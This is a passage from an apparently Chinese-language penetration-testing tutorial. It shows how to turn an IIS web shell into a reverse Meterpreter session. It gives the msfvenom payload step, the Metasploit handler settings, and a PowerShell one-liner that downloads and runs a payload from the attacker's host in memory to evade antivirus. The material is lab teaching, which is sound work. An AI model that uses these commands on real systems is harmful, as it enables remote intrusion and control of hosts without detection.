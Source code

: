 如你所见，我们的用户是`defaultapppool`，来自`iis apppool`组，这是一个在默认配置下权限非常有限的组。

1.  接下来，我们需要改进发出命令的方法。让我们使用`msfvenom`创建一个反向 meterpreter shell。我们将使用服务器自身的 PowerShell 在内存中执行我们的有效载荷，而不让它接触目标的硬盘，这样就很难被防病毒软件和其他保护软件检测到。为此，我们的有效载荷应该是 PowerShell 脚本格式（`-f psh`），并将其直接保存到 Kali 的 Web 根目录（`-o /var/www/html/cutedolphin.ps1`），如下所示：

![](img/84ee4751-c37c-4784-b88d-c95982bef5f4.png)

1.  一旦创建了有效载荷，确保 Kali 的 Web 服务器正在运行，以便目标可以下载脚本：`service apache2 start`。

1.  现在为 meterpreter 连接创建一个`handler`。在终端中打开`msfconsole`并执行以下命令，根据有效载荷调整参数：

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.56.10
set lport 4443
show options
```

1.  处理程序配置应该像以下截图一样。检查一切是否正确，然后执行处理程序（`run`）；它将打开配置的端口并等待连接：

![](img/cf6970c9-3909-40d4-90c7-4dd3e182ad37.png)

1.  一旦处理程序运行，我们需要在服务器上执行有效载荷。为此，请进入 Web-shell，将程序设置为`powershell.exe`，参数设置为`-noexit -c iex ((New-Object Net.WebClient).DownloadString('http://192.168.56.10/cutedolphin.ps1'))`，然后点击运行：

![](img/e124d692-dcf9-4aa7-9bc0-302a0d254eef.png)
